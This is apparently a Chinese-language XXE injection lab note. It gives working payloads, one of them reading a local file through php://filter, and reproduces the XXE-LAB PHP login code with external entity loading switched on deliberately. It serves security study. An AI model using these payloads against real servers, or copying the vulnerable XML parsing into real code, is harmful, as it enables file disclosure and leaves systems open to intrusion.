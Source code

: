 获取 post 的 xml 文件 传递到 simplexml_load_string 再进行输出会遭成 xxe 注入

测试的 payload：

会回显 xxe

```
<?xml version = "1.0"?> <!DOCTYPE note [     <!ENTITY hacker "xxe"> ]> <name>&hacker;</name>
```

会读到当前目录的 1.txt

```
<?xml version = "1.0"?> <!DOCTYPE ANY [     <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=1.txt"> ]> <x>&f;</x>
```

## XXE-LAB

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');//这里面因为没有xml文档所以用的是php的伪协议来获取我们发送的xml文档

try{
    $dom = new DOMDocument();//创建XML的对象
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//将我们发送的字符串生成xml文档。
    $creds = simplexml_import_dom($dom);//这一步感觉相当于实例化xml文档

    $username = $creds->username;//获取username标签的值
    $password = $creds->password;//获取password标签的值

    if($username == $USERNAME && $password == $PASSWORD){//将获取的值与前面的进行比较。...
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);//注意必须要有username这个标签，不然的话找不到username,就没有了输出了，我们也不能通过回显来获取信息了
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);//与上方相同，都会输出username的值，都可以达到我们的目的
    }    
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```
